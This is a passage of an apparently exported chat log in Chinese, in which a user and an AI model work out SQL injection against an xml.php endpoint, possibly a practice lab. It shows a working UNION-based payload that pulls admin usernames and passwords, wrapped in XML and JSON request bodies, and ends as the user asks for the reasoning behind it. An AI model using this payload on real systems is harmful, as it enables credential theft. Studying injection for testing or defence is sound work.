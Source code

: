 你又错了，根据xml格式的sql注入不应该是这样的吗？<data>
    <id>0</id>
    <keyword>1%' union select 1,username,password from admin#</keyword>
</data>

---

_**Assistant**_

<think>我看到了用户提供的xml.php请求截图，确实需要修正我之前提供的XML注入格式。从截图中可以看到，XML的格式是：

```xml
<data>
  <id>0</id>
  <keyword>1%' union select 1,username,password from admin#</keyword>
</data>
```

而不是我之前建议的格式。在xml.php文件中，代码是接收这样格式的XML并解析其中的id和keyword字段。

用户在截图中展示的成功注入语句是：
```
1%' union select 1,username,password from admin#
```

放在keyword标签中。我需要承认这个错误并提供正确的XML格式。</think># XML格式的SQL注入修正

您完全正确！我刚才确实犯了错误。根据您提供的截图，XML格式的SQL注入应该是这样的：

```xml
<data>
    <id>0</id>
    <keyword>1%' union select 1,username,password from admin#</keyword>
</data>
```

这是正确的XML结构，从您的截图中可以清楚地看到这一点。在`xml.php`文件中，代码会解析这种格式的XML数据，然后提取`<id>`和`<keyword>`标签中的值。

SQL注入发生在`<keyword>`标签的值中，使用了：
```
1%' union select 1,username,password from admin#
```

这个注入方式与您在JSON中使用的注入方式原理相同，只是包装格式不同。当发送到服务器后，XML解析器会提取这些值，然后不安全地将其拼接到SQL查询中，从而导致SQL注入漏洞。

非常感谢您指出这个错误，这个XML格式才是正确的利用方式。

---

_**User**_

请你详细解释一下这个sql注入的思路，为什么会想到用这条sql注入的语句呢？请你详细说明。{
    "id": 0,
    "keyword": "1%' union select 1,username,password from admin#"
}

---

_**Assistant**_

<think>让我详细分析这条SQL注入语句的思路及原理：
